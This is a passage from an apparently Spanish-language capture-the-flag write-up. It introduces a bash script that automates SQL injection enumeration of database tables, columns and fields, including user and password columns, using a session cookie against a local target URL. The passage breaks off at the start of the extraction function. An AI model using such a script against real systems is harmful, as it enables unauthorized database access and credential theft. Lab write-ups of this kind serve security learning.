 y ya sabiendo que son 4 podríamos ir listando tabla por tabla hasta encontrar algo que nos interese, pero eso podría llegar a ser algo tardado, así que lo que hice fue crear un pequeño script en bash que me automatice el proceso de listado de tablas, columnas y campos (Aquí abajo dejo el código)

```bash
#!/bin/bash

#Colors
greenColor="\e[0;32m\033[1m"
endColor="\033[0m\e[0m"
redColor="\e[0;31m\033[1m"
blueColor="\e[0;34m\033[1m"
yellowColor="\e[0;33m\033[1m"
purpleColor="\e[0;35m\033[1m"
turquoiseColor="\e[0;36m\033[1m"
grayColor="\e[0;37m\033[1m"

function ctrl_c(){
	echo -e "\n\n${redColor}[!] Exiting...${endColor}\n"
	tput cnorm; exit 1
}

trap ctrl_c INT

tput civis

function helpPanel(){
	echo -e "\n${redColor}[!] Use: $0"
	for i in $(seq 1 80); do echo -ne ${redColor}-${endColor}; done
	echo -e "\n\n\t${blueColor}[-c]${endColor} ${yellowColor}Cookie${endColor}"
	echo -e "\t${blueColor}[-e]${endColor}${yellowColor} Extract${endColor}"
	echo -e "\t\t${purpleColor}tables${endColor}"
	echo -e "\t\t${purpleColor}columns${endColor}"
	echo -e "\t\t\t${blueColor}[-t]${endColor} ${yellowColor}Table name${endColor}"
	echo -e "\t\t${purpleColor}fields${endColor}"
	echo -e "\t\t\t${blueColor}[-f]${endColor} ${yellowColor}Fields names${endColor}${blueColor} (ceparate by ${endColor}${purpleColor},${endColor}${blueColor})${endColor}"
	echo -e "\t${blueColor}[-n]${endColor}${yellowColor} Number output${endColor}"
	echo -e "\t${blueColor}[-h]${endColor}${yellowColor} Show this help panel${endColor}"
	echo -e "\n\t${purpleColor}Use examples:${endColor}"
	echo -e "\t\t${yellowColor}$0${endColor} ${blueColor}-c${endColor} ${yellowColor}eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiO${endColor} ${blueColor}-e${endColor} ${yellowColor}tables${endColor} ${blueColor}-n${endColor} ${yellowColor}80${endColor}"
	echo -e "\t\t${yellowColor}$0${endColor} ${blueColor}-c${endColor} ${yellowColor}eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiO${endColor} ${blueColor}-e${endColor} ${yellowColor}columns${endColor} ${blueColor}-t${endColor} ${yellowColor}Users${endColor} ${blueColor}-n${endColor} ${yellowColor}30${endColor}"
	echo -e "\t\t${yellowColor}$0${endColor} ${blueColor}-c${endColor} ${yellowColor}eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiO${endColor} ${blueColor}-e${endColor} ${yellowColor}fields${endColor} ${blueColor}-f${endColor} ${yellowColor}id,user,password${endColor} ${blueColor}-t${endColor} ${yellowColor}Users${endColor} ${blueColor}-n${endColor} ${yellowColor}10${endColor}\n"

	tput cnorm
}

declare -r url="http://127.0.0.1" # <- CHANGE THIS

function extractTables(){
	echo
	for i in $(seq 0 $number_output); do
		echo -ne "\n${yellowColor}[${endColor}${greenColor}+${endColor}${yellowColor}] Table [${endColor}${greenColor}$i${endColor}${yellowColor}]:${endColor} "
```